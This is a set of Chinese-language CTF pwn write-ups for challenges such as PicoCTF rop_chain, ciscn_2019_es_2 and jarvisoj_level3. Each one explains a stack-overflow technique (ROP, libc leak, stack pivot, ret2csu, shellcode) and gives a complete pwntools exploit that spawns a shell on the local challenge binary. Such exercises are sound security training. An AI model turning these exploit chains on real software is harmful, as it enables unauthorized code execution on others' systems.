- 函数参数劫持
- 整数型绕过
- `\x00`绕过`len()`

1. 函数`vuln`中存在栈溢出



2. `flag`是后门函数,只要满足`win1 && win2`和`a1 = 0xDEADBAAD`就可以得到`flag`



3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造



> win1


> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出转跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```

# pwn2_sctf_2016

- `lib`地址泄露



> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2


- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```



> 泄露出`s`在栈上的偏移地址



> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```

# ciscn_2019_s_3

- ret2csu

  > 在`64`位程序中可以通过栈溢出控制`__lib_csu_init`中的参数来控制`rdx,rsi,edi`寄存器

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

- `syscall`函数会根据`rax`的值来调用函数,例如当`rax==0x3B`时,运行`execute`
- 栈地址泄露
- ROPgadgets




1.`read`中存在溢出

2.泄露`buf`的地址写入`/bin/sh`

3.通过ROPgadgets得到控制寄存器的地址

4.最后通过`ret2csu`和`syscall`构造出`excuse('/bin/sh',0,0)`得到`shell`

*ret2csu*思路:

1. 首先跳转到`pop rbx`的位置`(csu_end)`,控制一系列寄存器,根据代码可知`r13 -> rdx ; r14 -> rsi ; r15 -> edi`

2. 再`retn`到`mov rdx,r13`的位置`(csu_font)`,这里要注意存在`call`函数,同时,要满足`cmp rbx,rbp`即`$rbx-$rbp==0`才继续运行,为了满足条件我们需要在第$1$步中提前布局
3. 运行`loc_400596`的代码,`add rsp,8`抬高了栈顶,所以我们填充栈的时候也要注意多填充`8`个位置,接着是常规的填充,根据需要,不需要则全部填充为`0xdeadbeef`直到`retn`回到程序流



泄露栈地址后第二次栈布局如下

|       | rbp  |            |       |                    |                                |
| :---: | :--: | :--------: | :---: | :----------------: | :----------------------------: |
| 0x10  |      |  padding   |       |                    | 开头为b"/bin/sh\x00"=>buf_addr |
| 0x18  |      |            |  ret  | 0x000000000040059A |            csu_end             |
| 0x20  |      |     0      |  rbx  |                    |                                |
| 0x28  |      |     1      |  rbp  |                    |                                |
| 0x30  |      |            |  r12  |    bufaddr+0x10    |           call的参数           |
| 0x38  |      |     0      |  r13  |                    |             => rdx             |
| 0x40  |      |     0      |  r14  |                    |             => rsi             |
| 0x48  |      |     0      |  r15  |                    |             => edi             |
| 0x50  |      |            | retn  | 0x0000000000400580 |           2csu_font            |
| 0x58  |      | 0xdeadbeef | rsp,8 |                    |                                |
| 0x60  | rsp  | 0xdeadbeef |  rbx  |                    |                                |
| 0x68  |      | 0xdeadbeef |  rbp  |                    |                                |
| 0x70  |      | 0xdeadbeef |  r12  |                    |                                |
| 0x78  |      | 0xdeadbeef |  r13  |                    |                                |
| 0x80  |      | 0xdeadbeef |  r14  |                    |                                |
| 0x88  |      | 0xdeadbeef |  r15  |                    |                                |
| 0x90  |      |            |  ret  | 0x00000000004004E2 |           rax = 0x3B           |
| 0x98  |      |            | retn  | 0x00000000004005a3 |          pop_rdi_addr          |
| 0x100 |      |            |  ret  | 0x0000000000400517 |            syscall             |

```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.

# ciscn_2019_n_5

- ret2shellcode
- libc泄露




1. 程序没有开启`NX`保护,并且是`RWX`权限可以运行段上代码
2. 预期解:往`name`中写入`shellcode`,再利用`get`转跳到相应的`.bss`段上运行`shellcode`
3. 非预期解:通过`get`泄露`puts()`地址,泄露`libc`地址,劫持程序流得到`shell`.注意这里`64`位`($rdi)`和`32`位程序传参的不同.

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p=process('./ciscn_2019_n_5')
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil(b'me?\n')
name=0x601080
payload=b'a'*0x28+p64(name)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
#io = gdb.debug('./ciscn_2019_n_5','b *0x40067a')
context.log_level = 'debug'
io = process('./ciscn_2019_n_5')
#io = gdb.debug('./ciscn_2019_n_5','b main')
elf = ELF('./ciscn_2019_n_5')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
padding = 0x20
#泄露libc
io.sendlineafter('tell me your name\n',b'1')
#padding+pop_rdi+puts_got+puts_plt+main_addr
payload1 = b'A'*0x28+p64(0x0000000000400713)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter('What do you want to say to me?\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr ->',hex(puts_addr))
io.sendlineafter('tell me your name\n',b'1')
#payload构造
Liboffset = puts_addr-Lib.sym['puts']
sys_addr = Lib.sym['system']+Liboffset
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(0x28)+p64(0x0000000000400713)+p64(bin_sh_addr)+p64(0x00000000004004c9)+p64(sys_addr)
io.sendlineafter('What do you want to say to me?\n',payload2)
io.interactive()
```

# ciscn_2019_ne_5


- `32`位`ROP`劫持

- 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```

# bjdctf_2020_babyrop


- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |

> payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```

# jarvisoj_level3


- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |

> payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```

# 铁人三项(第五赛区)_2018_rop

- 函数参数劫持

- `32`位泄露`libc`

```python
from pwn import *
context.log_level = 'debug'
#io = gdb.debug('./2018_rop','break *0x8048474')
io = process('./2018_rop')
elf = ELF('./2018_rop')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
padding = 0x88
payload1 = b'A'*(padding+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
write_addr = u32(io.recv(4))
print('write_addr -> ',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(padding+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendline(payload2)
io.interactive()
```

# ez_pz_hackover_2016

```shell
bamuwe@qianenzhao:~$ checksec ez_pz_hackover_2016
[*] '/home/bamuwe/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```




- 逻辑绕过
- `\x00`阶段
- 动态调试计算栈空间
- `ret2shellcode`

1. 栈保护全关,考虑`ret2shellcode`
2. 通过`\x00`绕过前置验证,进入`vuln`函数
3. `vuln`函数中,会把`&src`赋值给`dest`这其中存在漏洞

正常思路这里就可以构造`payload`了,但是这里`ida`分析出来的`dest`栈空间为`0x32`与实际不符合,我们需要动态调试手动查看栈空间


> 停在`nop`处查看栈




> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python

```

# wustctf2020_getshell




- `ret2shell`

1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```

# jarvisoj_level3_x64


- `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```

# bjdctf_2020_babyrop2

- 格式化字符漏洞
- `canary`保护机制
- `64`位泄露`libc`

```shell
bamuwe@qianenzhao:~$ checksec bjdctf_2020_babyrop2
[*] '/home/bamuwe/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`canary`保护机制:在局部变量和返回地址间插入一个随机数,通过检测这个随机数判断是否存在栈溢出或修改.




> 红框位置就是`canary`值存在的位置

